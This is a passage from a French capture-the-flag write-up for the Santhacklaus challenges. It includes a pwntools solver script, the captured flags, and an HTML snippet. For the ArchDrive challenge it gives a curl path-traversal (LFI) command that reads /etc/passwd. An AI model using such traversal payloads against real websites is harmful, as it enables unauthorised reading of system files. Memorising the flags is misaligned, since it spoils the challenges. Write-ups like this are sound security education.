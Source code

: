 Autre version
```python
from pwn import *
from math  import *

r = remote("51.75.202.113", 10001)

print(r.recvuntil(":"))
n1 = int(r.recvline())
n2 = int(r.recvline().split(":")[1])
res = int(sqrt(n1) * pow(n2, 3))

r.send(str(res))
print(r.recv(1024))
```

`IMTLD{TheFastestManAlive}`

---
## 150 ArchDrive (1/3)
---

> A new company called ArchDrive recently launched a web storage service. Can you collect some informations, like administrator's name?

* page web avec un formulaire
* on essaye de reset le password
* on voit https://archdrive.santhacklaus.xyz/?page=reset.php
* peut-être une LFI ?

```bash
$ curl https://archdrive.santhacklaus.xyz/?page=../../../../../etc/passwd
...
G0lD3N_Us3r:x:1000:1000:IMTLD{Th1s_iS_4n_ImP0rt4nT_uS3r},,,:/home/G0lD3N_Us3r:/bin/bash
...
```

`IMTLD{Th1s_iS_4n_ImP0rt4nT_uS3r}`

---
## 150 The Flag Grabber
---

> Can you capture the flag ?  
> Lien: https://the-flag-grabber.santhacklaus.xyz

```html
<div id="cursor">
  <input type="submit" value="I want my flag !" name="false_button" onclick="message()">
</div>

<form method="POST" id="formulaire">
  <input type="submit" value="I want my flag !" name="button">
</form>
```
